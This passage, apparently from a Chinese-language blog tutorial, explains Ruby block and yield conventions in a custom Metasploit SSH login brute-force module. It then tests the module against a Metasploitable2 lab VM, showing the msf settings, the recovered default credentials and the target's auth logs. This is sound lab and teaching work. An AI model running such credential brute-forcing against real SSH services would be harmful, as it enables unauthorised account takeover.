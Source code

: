 上面我们看到有的方法以问号结尾，如`result.success?`，这说明它返回一个布尔值；有的方法以感叹号结尾，如`credential_data.merge!`，这说明该方法将修改你向它传入的对象（即产生副作用）。这是一种书写约定。我们要关注的是

```ruby
yield result if block_given?
```

`yield`与我们的自定义模块中的`do |result| end`是Ruby中的一种特性。参考[Blocks and yields in Ruby](https://stackoverflow.com/questions/3066703/blocks-and-yields-in-ruby)：

Ruby中的方法可以通过`block_given?`检测它在被调用时是否有额外的代码块（即`do ... end`），如果有，那么它可以通过`yield`来执行这个外部代码块。它在`yield`时也可以向这个代码块传递参数，同时，代码块以`|xxx|`的方式来接受参数。这样看来，其实这个外部代码块更像是一个回调函数。

有了上述知识，前面自定义模块最后部分的代码就不难理解了。

官方的`ssh_login`模块基本也是这样写的。它前面与我们的几乎一样，最后对`result`的处理及输出这块稍微有些差异，但是也基本一致。

测试：

`Metasploitable2`的SSH登陆用户名密码都是`msfadmin`，所以我们可以编一个字典把它们加进去就好。

```
set RHOSTS 172.16.56.130
set USER_FILE /Users/rambo/Sandbox/user_dict.txt
set PASS_FILE /Users/rambo/Sandbox/password_dict.txt
```

![Screen Shot 2018-10-21 at 4.35.40 PM.png]({{ site.url }}/images/metasploit/D0886A5977D526A0030DC507CC453C7D.png)

不过这个爆破真的很慢。

我们再测试一下官方自带的`ssh_login`模块，功能是一样的：

![Screen Shot 2018-10-21 at 4.44.57 PM.png]({{ site.url }}/images/metasploit/55938E2F32DA4EC0131EFE7FDA0DF91D.png)

在爆破成功后，登陆凭证将被记录在数据库中：

```
msf > creds
Credentials
===========

host           origin         service       public    private   realm  private_type
----           ------         -------       ------    -------   -----  ------------
172.16.56.130  172.16.56.130  22/tcp (ssh)  msfadmin  msfadmin         Password
```

最后，在Metasploitable2的`/var/log/auth.log`中可以看到登陆日志：

```
Oct 19 17:18:27 metasploitable sshd[5463]: Invalid user borden from 172.16.56.1
Oct 19 17:18:27 metasploitable sshd[5463]: pam_unix(sshd:auth): check pass; user unknown
Oct 19 17:18:27 metasploitable sshd[5463]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=172.16.56.1
Oct 19 17:18:29 metasploitable sshd[5463]: Failed password for invalid user borden from 172.16.56.1 port 49459 ssh2
Oct 19 17:18:39 metasploitable sshd[5465]: Invalid user borden from 172.16.56.1
Oct 19 17:18:39 metasploitable sshd[5465]: pam_unix(sshd:auth): check pass; user unknown
Oct 19 17:18:39 metasploitable sshd[5465]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=172.16.56.1
Oct 19 17:18:41 metasploitable sshd[5465]: Failed password for invalid user borden from 172.16.56.1 port 49624 ssh2
Oct 19 17:18:51 metasploitable sshd[5469]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=172.16.56.1  user=msfadmin
Oct 19 17:18:53 metasploitable sshd[5469]: Failed password for msfadmin from 172.16.56.1 port 49632 ssh2
Oct 19 17:19:03 metasploitable sshd[5471]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=172.16.56.1  user=msfadmin
Oct 19 17:19:05 metasploitable sshd[5471]: Failed password for msfadmin from 172.16.56.1 port 49635 ssh2
```